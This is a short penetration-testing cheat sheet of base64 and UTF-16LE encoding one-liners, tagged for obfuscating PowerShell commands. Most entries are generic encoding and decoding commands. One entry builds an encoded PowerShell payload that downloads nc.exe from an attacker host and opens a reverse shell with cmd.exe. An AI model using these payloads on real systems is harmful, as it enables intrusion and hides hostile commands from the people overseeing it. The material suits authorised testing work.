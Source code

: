 # base64

% obfuscation, base64

#plateform/linux #target/local #cat/UTILS 

## iconv - powershell encode file 
```bash
iconv -f ASCII -t UTF-16LE <file> | base64 -w 0
```

## iconv - powershell encode command
```bash
echo "<pwsh_cmd|iex(command)>" | iconv --to-code UTF-16LE | base64 -w 0
```

## python - powershell encode command
```bash
python -c 'import base64; print(base64.b64encode((r"""<powershell_command>""").encode("utf-16-le")).decode())'
```

## python - powershell encode nc revshell
```bash
python -c 'import base64; print(base64.b64encode((r"""(new-object net.webclient).downloadfile("http://<ip>/nc.exe", "c:\windows\temp\nc.exe"); c:\windows\temp\nc.exe -nv <ip> <port> -e c:\windows\system32\cmd.exe;""").encode("utf-16-le")).decode())'
```

## base64 - encode string 
```bash
echo '<string>' | base64 -w 0
```

## base64 - decode string 
```bash
echo '<string>' | base64 -d 
```


## base64 - encode file 
```bash
cat <path> | base64 -w 0
```

## base64 - decode file 
```bash
cat <path> | base64 -d 
```